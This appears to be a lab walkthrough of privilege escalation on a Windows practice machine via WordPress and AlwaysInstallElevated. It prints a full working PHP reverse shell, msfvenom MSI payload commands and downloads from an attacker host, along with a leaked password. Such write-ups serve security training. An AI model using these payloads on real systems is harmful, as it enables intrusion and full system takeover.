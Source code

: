 ```yaml
---
description: Privilege Escalation using AlwaysInstallElevated
---
```


# Shenzi

## Summary

* Guest users had access to `/shenzi` directory via SMB.
* Within this directory, I found a `password.txt` file containing the credentials for a WordPress site hosted at the `/shenzi` path.
* Using these credentials, I logged into the WordPress admin panel.&#x20;
* Injected a reverse shell payload into the `404.php` page. After testing various payloads, I found that the PHP reverse shell by <mark style="color:green;">**`Ivan Sincek`**</mark> from revshell.com provided a stable connection.
* Triggering the modified `404.php` page gave me a reverse shell as a low-privileged user, allowing me to obtain the first low-privilege flag. :tada:
* To elevate privileges, I utilised `powerup.ps1` and `winPEAS` to identify potential escalation vectors.&#x20;
* _During this process, I discovered that the <mark style="color:green;">**`AlwaysInstallElevated`**</mark> setting was enabled. This Windows policy allows Windows Installer packages (.msi files) to be installed with administrative privileges._
* Leveraging this, I created a reverse shell payload embedded in a `.msi` file, uploaded it to the target machine, and installed it. This successfully granted me a reverse shell with administrator privileges, allowing me to complete the privilege escalation and achieve full control of the system.

## Let's Unpack

### Enumeration

```bash
# Nmap
sudo nmap -sC -sN -A -oN nmapFull -p- -A 192.168.172.55

# gobuster 
gobuster dir -u http://192.168.172.55 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt 

# smbclient
smbclient //192.168.172.55/shenzi -U guest
>
smb: \> dir
  .                                   D        0  Thu May 28 21:15:09 2020
  ..                                  D        0  Thu May 28 21:15:09 2020
  passwords.txt                       A      894  Thu May 28 21:15:09 2020
  readme_en.txt                       A     7367  Thu May 28 21:15:09 2020
  sess_klk75u2q4rpgfjs3785h6hpipp      A     3879  Thu May 28 21:15:09 2020
  why.tmp                             A      213  Thu May 28 21:15:09 2020
  xampp-control.ini                   A      178  Thu May 28 21:15:09 2020

# validating credentials using cme
 crackmapexec smb  192.168.172.55 -u 'admin' -p 'FeltHeadwallWight357' --continue-on-success
```



### Initial Foodhold

#### Injecting reverse shell

Updating `404.php` page to have the following PHP reverse shell

<details>

<summary>Ref Ivan Sincek shell -> <a href="https://www.revshells.com/">https://www.revshells.com/</a></summary>

```
<?php
// Copyright (c) 2020 Ivan Sincek
// v2.3
// Requires PHP v5.0.0 or greater.
// Works on Linux OS, macOS, and Windows OS.
// See the original script at https://github.com/pentestmonkey/php-reverse-shell.
class Shell {
    private $addr  = null;
    private $port  = null;
    private $os    = null;
    private $shell = null;
    private $descriptorspec = array(
        0 => array('pipe', 'r'), // shell can read from STDIN
        1 => array('pipe', 'w'), // shell can write to STDOUT
        2 => array('pipe', 'w')  // shell can write to STDERR
    );
    private $buffer  = 1024;    // read/write buffer size
    private $clen    = 0;       // command length
    private $error   = false;   // stream read/write error
    public function __construct($addr, $port) {
        $this->addr = $addr;
        $this->port = $port;
    }
    private function detect() {
        $detected = true;
        if (stripos(PHP_OS, 'LINUX') !== false) { // same for macOS
            $this->os    = 'LINUX';
            $this->shell = 'cmd';
        } else if (stripos(PHP_OS, 'WIN32') !== false || stripos(PHP_OS, 'WINNT') !== false || stripos(PHP_OS, 'WINDOWS') !== false) {
            $this->os    = 'WINDOWS';
            $this->shell = 'cmd.exe';
        } else {
            $detected = false;
            echo "SYS_ERROR: Underlying operating system is not supported, script will now exit...\n";
        }
        return $detected;
    }
    private function daemonize() {
        $exit = false;
        if (!function_exists('pcntl_fork')) {
            echo "DAEMONIZE: pcntl_fork() does not exists, moving on...\n";
        } else if (($pid = @pcntl_fork()) < 0) {
            echo "DAEMONIZE: Cannot fork off the parent process, moving on...\n";
        } else if ($pid > 0) {
            $exit = true;
            echo "DAEMONIZE: Child process forked off successfully, parent process will now exit...\n";
        } else if (posix_setsid() < 0) {
            // once daemonized you will actually no longer see the script's dump
            echo "DAEMONIZE: Forked off the parent process but cannot set a new SID, moving on as an orphan...\n";
        } else {
            echo "DAEMONIZE: Completed successfully!\n";
        }
        return $exit;
    }
    private function settings() {
        @error_reporting(0);
        @set_time_limit(0); // do not impose the script execution time limit
        @umask(0); // set the file/directory permissions - 666 for files and 777 for directories
    }
    private function dump($data) {
        $data = str_replace('<', '&lt;', $data);
        $data = str_replace('>', '&gt;', $data);
        echo $data;
    }
    private function read($stream, $name, $buffer) {
        if (($data = @fread($stream, $buffer)) === false) { // suppress an error when reading from a closed blocking stream
            $this->error = true;                            // set global error flag
            echo "STRM_ERROR: Cannot read from ${name}, script will now exit...\n";
        }
        return $data;
    }
    private function write($stream, $name, $data) {
        if (($bytes = @fwrite($stream, $data)) === false) { // suppress an error when writing to a closed blocking stream
            $this->error = true;                            // set global error flag
            echo "STRM_ERROR: Cannot write to ${name}, script will now exit...\n";
        }
        return $bytes;
    }
    // read/write method for non-blocking streams
    private function rw($input, $output, $iname, $oname) {
        while (($data = $this->read($input, $iname, $this->buffer)) && $this->write($output, $oname, $data)) {
            if ($this->os === 'WINDOWS' && $oname === 'STDIN') { $this->clen += strlen($data); } // calculate the command length
            $this->dump($data); // script's dump
        }
    }
    // read/write method for blocking streams (e.g. for STDOUT and STDERR on Windows OS)
    // we must read the exact byte length from a stream and not a single byte more
    private function brw($input, $output, $iname, $oname) {
        $fstat = fstat($input);
        $size = $fstat['size'];
        if ($this->os === 'WINDOWS' && $iname === 'STDOUT' && $this->clen) {
            // for some reason Windows OS pipes STDIN into STDOUT
            // we do not like that
            // we need to discard the data from the stream
            while ($this->clen > 0 && ($bytes = $this->clen >= $this->buffer ? $this->buffer : $this->clen) && $this->read($input, $iname, $bytes)) {
                $this->clen -= $bytes;
                $size -= $bytes;
            }
        }
        while ($size > 0 && ($bytes = $size >= $this->buffer ? $this->buffer : $size) && ($data = $this->read($input, $iname, $bytes)) && $this->write($output, $oname, $data)) {
            $size -= $bytes;
            $this->dump($data); // script's dump
        }
    }
    public function run() {
        if ($this->detect() && !$this->daemonize()) {
            $this->settings();

            // ----- SOCKET BEGIN -----
            $socket = @fsockopen($this->addr, $this->port, $errno, $errstr, 30);
            if (!$socket) {
                echo "SOC_ERROR: {$errno}: {$errstr}\n";
            } else {
                stream_set_blocking($socket, false); // set the socket stream to non-blocking mode | returns 'true' on Windows OS

                // ----- SHELL BEGIN -----
                $process = @proc_open($this->shell, $this->descriptorspec, $pipes, null, null);
                if (!$process) {
                    echo "PROC_ERROR: Cannot start the shell\n";
                } else {
                    foreach ($pipes as $pipe) {
                        stream_set_blocking($pipe, false); // set the shell streams to non-blocking mode | returns 'false' on Windows OS
                    }

                    // ----- WORK BEGIN -----
                    $status = proc_get_status($process);
                    @fwrite($socket, "SOCKET: Shell has connected! PID: " . $status['pid'] . "\n");
                    do {
						$status = proc_get_status($process);
                        if (feof($socket)) { // check for end-of-file on SOCKET
                            echo "SOC_ERROR: Shell connection has been terminated\n"; break;
                        } else if (feof($pipes[1]) || !$status['running']) {                 // check for end-of-file on STDOUT or if process is still running
                            echo "PROC_ERROR: Shell process has been terminated\n";   break; // feof() does not work with blocking streams
                        }                                                                    // use proc_get_status() instead
                        $streams = array(
                            'read'   => array($socket, $pipes[1], $pipes[2]), // SOCKET | STDOUT | STDERR
                            'write'  => null,
                            'except' => null
                        );
                        $num_changed_streams = @stream_select($streams['read'], $streams['write'], $streams['except'], 0); // wait for stream changes | will not wait on Windows OS
                        if ($num_changed_streams === false) {
                            echo "STRM_ERROR: stream_select() failed\n"; break;
                        } else if ($num_changed_streams > 0) {
                            if ($this->os === 'LINUX') {
                                if (in_array($socket  , $streams['read'])) { $this->rw($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (in_array($pipes[2], $streams['read'])) { $this->rw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (in_array($pipes[1], $streams['read'])) { $this->rw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            } else if ($this->os === 'WINDOWS') {
                                // order is important
                                if (in_array($socket, $streams['read'])/*------*/) { $this->rw ($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (($fstat = fstat($pipes[2])) && $fstat['size']) { $this->brw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (($fstat = fstat($pipes[1])) && $fstat['size']) { $this->brw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            }
                        }
                    } while (!$this->error);
                    // ------ WORK END ------

                    foreach ($pipes as $pipe) {
                        fclose($pipe);
                    }
                    proc_close($process);
                }
                // ------ SHELL END ------

                fclose($socket);
            }
            // ------ SOCKET END ------

        }
    }
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('192.168.45.226', 4444);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>
```

</details>

```bash
# Catching Reverse shell using NetCat
nc -nlvp 4444

# BOOM! Got a shell with low-privilege user
```

### Privilege Escalation

Using [winPEAS.exe](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md) and [PowerUp.ps1 ](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)to get familiar with Priv escalation vector

<pre class="language-powershell"><code class="lang-powershell"><strong># Uploading scripts to machine
</strong><strong>iwr -uri http://192.168.45.226:8000/winPEASx64.exe -outfile winPEAS.exe
</strong>iwr -uri http://192.168.45.226:8000/PowerUp.ps1 -outfile PowerUp.ps1 
</code></pre>

The above script revealed that the <mark style="background-color:red;">**AlwaysInstallElevated**</mark> setting is enabled in the Windows policy.

<pre class="language-powershell"><code class="lang-powershell">Invoke-AllChecks
>
Check         : AlwaysInstallElevated Registry Key
AbuseFunction : Write-UserAddMSI

DefaultDomainName    : SHENZI
DefaultUserName      : shenzi
DefaultPassword      : 
AltDefaultDomainName : 
AltDefaultUserName   : 
AltDefaultPassword   : 
Check                : Registry Autologons

# verifying manually
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\Software\Policies\Microsoft\Windows\Installer

# both returned true
AlwaysInstallElevated    REG_DWORD    <a data-footnote-ref href="#user-content-fn-1">0x1</a>

</code></pre>

#### Exploiting to gain elevated shell

<pre class="language-sh"><code class="lang-sh"># generate payload using msfconsole
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.226 lport=9999 -a x64 --platform windows -f msi -o ignite.msi

# Uploading it to machine
iwr -uri http://192.168.45.226:8000/ignite.msi -outfile ignite.msi

# installing the msi 
msiexec /quiet /qn /i ignite.msi

# catching the shell using Netcat
nc -nlvp 9999

# Boom! got the <a data-footnote-ref href="#user-content-fn-2">NT AUTHORITY\SYSTEM</a> shell
</code></pre>







[^1]: 

[^2]: 
